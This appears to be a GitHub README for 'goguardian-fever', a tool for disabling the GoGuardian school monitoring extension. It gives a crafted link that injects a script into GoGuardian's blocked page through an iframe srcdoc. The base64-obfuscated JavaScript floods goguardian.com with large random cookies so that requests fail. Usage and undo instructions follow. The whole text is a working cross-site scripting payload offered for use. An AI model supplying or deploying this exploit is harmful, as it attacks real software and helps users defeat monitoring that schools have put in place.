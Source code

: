 ```yaml
---
title: goguardian-fever
---
```


-e 
Disable GoGuardian with an error screen!

Link:
https://student.goguardian.com/teacher/blocked.html?cs=[{"name": ""}, {"name": "<iframe srcdoc=\"<script>top.eval(atob(`Zm9yKGxldCBpID0gMDsgaSA8IDEwMDsgaSsrKSB7CiAgZG9jdW1lbnQuY29va2llID0gYHgke2l9PSR7ZW5jb2RlVVJJQ29tcG9uZW50KGJ0b2EoY3J5cHRvLmdldFJhbmRvbVZhbHVlcyhuZXcgVWludDhBcnJheSgyNSAqIDI1KSkpKX07ZXhwaXJlcz0ke25ldyBEYXRlKDJlMTQpLnRvVVRDU3RyaW5nKCl9O2RvbWFpbj1nb2d1YXJkaWFuLmNvbTtwYXRoPS9gOwp9`))</script>\"></iframe>"}]

Instructions:
1. Copy the link above.
2. Go to a new tab and open the link above up.
3. The tab should be white with nothing on it. Reload.
4. If the GET request fails and you are left on an error screen, continue.
5. Visit chrome://restart to clear cached sites from GoGuardian.

How to undo:
1. On https://goguardian.com, press the lock icon at the top left of the screen.
2. Press cookies and site data.
3. Click manage cookies.
4. Clear each site's cookies you see there.

Credits:
akabutnice
https://github.com/3kh0/ext-remover

